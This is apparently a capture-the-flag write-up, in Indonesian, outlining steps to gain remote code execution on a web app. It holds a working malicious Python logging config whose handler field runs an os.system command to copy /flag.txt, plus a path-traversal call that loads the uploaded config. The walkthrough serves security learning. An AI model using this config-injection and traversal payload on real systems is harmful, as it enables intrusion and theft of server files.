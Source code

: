 Rencana mendapatkan RCE:

step 1:
- register user
- login user
- upload sebuah file ( disini saya beri nama flag.txt)
- dapatkan nama file tersebut menggunakan fungsi gallery

step 2:
- siapkan konfigurasi logging yang berisi payload RCE (disini saya beri nama attacker.conf):
contoh

```
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/bbbcdccab94c74b2bec5f8a18880aa/flag.txt_530af9d4799b0af640df')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

> note: untuk "bbbcdccab94c74b2bec5f8a18880aa/flag.txt_530af9d4799b0af640df" kalian bisa ganti dengan nama file yang tadi kita dapat melalui fungsi gallery

step 3:
- upload file konfigurasi yang mengandung RCE yang tadi kita buat menggunakan fungsi upload()
- dapatkan nama file dengan menggunakan fungsi gallery() 

step 4:
- siapkan kedua nama file yang tadi kita dapat dari fungsi galery()
- gunakan lfi dari fungsi log_config() untuk mengubah konfigurasi menjadi konfigurasi yang kita upload tadi, contoh:

```python
a.log_config(filename=f"../images/{mal_conf}") # ganti {mal_conf} dengan nama konfigurasi yang tadi kita dapatkan dari fungsi gallery()
```
